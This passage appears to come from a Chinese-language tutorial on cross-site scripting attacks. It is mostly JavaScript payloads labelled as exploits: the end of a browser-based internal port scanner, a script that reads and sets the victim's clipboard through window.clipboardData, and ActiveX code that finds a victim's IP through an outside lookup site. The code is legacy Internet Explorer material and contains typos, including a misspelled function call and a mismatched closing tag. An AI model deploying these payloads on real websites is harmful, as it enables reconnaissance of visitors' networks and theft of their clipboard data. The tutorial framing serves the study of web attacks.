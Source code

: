   ```js
            setTimeout(function(){
                 if(!img) return;
                 img=undefined;
                 callback(target,port,'close');
            },timeout);
     };
     AttackAPI.PortScanner.scanTarget=function(callback,target,ports,timeout){
            for(index=0;index<ports.length;index++)
                 AttackAPI.PortScanner.scanPort(callback,target,ports[index],timeout);  
     };
  }
  </script>
  <script>
  var result=document.getElementById('result');
  var callback=function(target,port,status){
     result.value+=target+':'+port+' '+status+"\n";
  };
  var scan=function(form){
       AttackAPI.PortScanner.scannTarget(callback,form.target.value,form.port.value.split(','),form.timeout.value);
  };
  </script>
  ```
  
* **截获剪贴板内容**
  * 原理
  使用window.clipboardData对象处理剪贴板内容，主要有三个方法：clearData(sDataFormat)//删除剪贴板中指定格式数据，getData(sDataFormat)//从剪贴板中获取指定格式数据，setData(sDataFormat,sData)//给剪贴板赋予指定格式内容
  
  * exploit：
  ```js
  <form id="test" action="test.php" method="post">
  <div id="someData">
  <textarea row="4" cols="40" name="test">  </testarea>
  <input type="button" value="复制到剪贴板" onclick="setClipboard()">
  <input type="button" value="查看剪贴板内容" onclick="readClipboard()">
  <input type="button" value="清除" onclick="window.clipboardData.clearData('text');">
  </form>
  
  <script>
  function readClipboard(){
     alert(window.clipboardData.getData('Text'));
  }
  function setClipboard(){
     var t=document.getElementById("someData").innerText;
     window.clipboardData.setData('text',t);
  }
  </script>
  ```
  
* **获取客户端IP**
  * 方法一：可以使用ActiveXObject对象的属性GetIPAddress方法获取客户端ip，但是知识获取的是内网地址
  * 方法二：可以利用外网ip查询网站来获得客户端ip地址
  * exploit：
  ```js
  <script>
  xml=new ActiveXObject("Microsoft.XMLHTTP");
  xml.open("GET","http://www.ip138.com/ip2city.asp",false);
  xml.send();
  kk=xml.ResponseText;
  i=kk.indexOf("[");
  ie=kk.indexOf("]");
  ip=kk.substring(i+1,ie);
  document.write("ip地址为："+ip);
  </script>
  ```